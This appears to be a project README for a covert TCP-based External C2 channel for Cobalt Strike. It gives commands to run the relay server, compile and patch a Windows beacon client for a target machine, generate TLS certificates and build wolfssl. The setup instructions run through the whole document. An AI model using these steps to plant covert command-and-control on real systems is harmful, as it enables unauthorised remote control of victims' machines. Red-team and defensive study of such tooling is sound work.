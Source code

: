# COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Cert] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Cert] is the path to the servers certificate in PEM format.
- [Key] is the path to the servers key in PEM format.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [CA Cert]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.
- [CA Cert] is the CA Cert created when creating the server cert and key. It is copy and pasted in with quotes around it, not a file path.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client keeps one long TCP/TLS connection open.
- Create certs. Server gets server-cert.pem and server-key.pem. Client gets ca-cert.pem

>openssl genrsa 2048 > ca-key.pem
>openssl req -new -x509 -nodes -days 365000 -key ca-key.pem -out ca-cert.pem
>openssl req -newkey rsa:2048 -nodes -days 365000 -keyout server-key.pem -out server-req.pem
>openssl x509 -req -days 365000 -set_serial 01 -in server-req.pem -out server-cert.pem -CA ca-cert.pem -CAkey ca-key.pem

- Steps I used to set up wolfssl on kali once cloned

> make distclean
> ./autogen.sh
> sudo ./configure CFLAGS="-DWIN64 -DMINGW -DWC_NO_HARDEN" --enable-debug --enable-rsa --enable-aes --enable-static --disable-shared --enable-dtls --host=x86_64 CC=x86_64-w64-mingw32-gcc LD=x86_64-w64-mingw32-ld LIBS="-lws2_32 -L/usr/x86_64-w64-mingw/lib -lwolfssl" --prefix=/usr/x86_64-w64-mingw32 --disable-harden --disable-examples
> sudo make
> sudo make install

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
- Add jitter to sleep
- Add retry to TCP
